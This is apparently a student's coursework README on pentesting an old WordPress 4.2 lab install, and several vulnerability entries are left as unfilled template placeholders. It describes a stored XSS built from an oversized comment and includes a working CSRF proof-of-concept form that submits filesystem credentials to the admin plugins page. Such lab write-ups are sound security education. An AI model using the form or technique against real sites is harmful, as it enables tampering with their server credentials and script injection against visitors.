

# Project 7 - WordPress Pentesting

Time spent: **X** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Lab Section

* Recreating the XSS exploit:

    

## Pentesting Report

1. (Required) Unauthenticated Stored Cross-Site Scripting (XSS)
  - [x] Summary: https://wpvulndb.com/vulnerabilities/7945.
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [x] GIF Walkthrough: 
  - [x] Steps to recreate: The vulnerability takes place
        when a user posts a comment that is extraordinarily long to bypass the MySQL limit
        of 64 kilobytes. When this happens, it executes code within HTML attributes supplied
        in the comment. When any user loads the page with the comment, the XSS executes.
  - [x] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/4.2/src/wp-comments-post.php)
1. (Required) wp_untrash_post_comments SQL Injection
  - [x] Summary: https://wpvulndb.com/vulnerabilities/8126.
    - Vulnerability types: SQL Injection
    - Tested in version: 4.2
    - Fixed in version: 4.2.4
  - [ ] GIF Walkthrough:
  - [ ] Steps to recreate:
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Required) Filesystem Credentials Dialog CSRF
  - [x] Summary: https://wpvulndb.com/vulnerabilities/8818
    - Vulnerability types: CSRF
    - Tested in version: 4.2
    - Fixed in version: 4.2.15
  - [x] GIF Walkthrough:
  - [x] Steps to recreate: Create an HTML file with a hidden submission form
        ```
        <html>
   <body>
      <form action="http://wpdistillery.dev/wp-admin/plugins.php" method="POST">
         <input type="hidden" name="hostname" value="sumofpwn.nl" />
         <input type="hidden" name="connection_type" value="ftp" />
         <input type="hidden" name="password" value="password" />
         <input type="submit" value="Submit request" />
      </form>
   </body>
</html>
        ```
  - [x] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/4.2/src/wp-admin/includes/file.php)
1. (Optional) Pupload Same Origin Method Execution (SOME)
  - [ ] Summary: https://wpvulndb.com/vulnerabilities/8489
    - Vulnerability types: Same Origin Method Execution (SOME)
    - Tested in version: 4.2
    - Fixed in version: 4.2.8
  - [ ] GIF Walkthrough:
  - [ ] Steps to recreate:
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Optional) 2.3-4.7.5 - Large File Upload Error XSS
  - [x] Summary: https://wpvulndb.com/vulnerabilities/8819
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.15
  - [ ] GIF Walkthrough:
  - [ ] Steps to recreate:
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)

    Filesystem Credentials Dialog CSRF
    https://wpvulndb.com/vulnerabilities/8818

    Press This CSRF DoS
    https://wpvulndb.com/vulnerabilities/8770

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright 2017 Alexander Matson

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
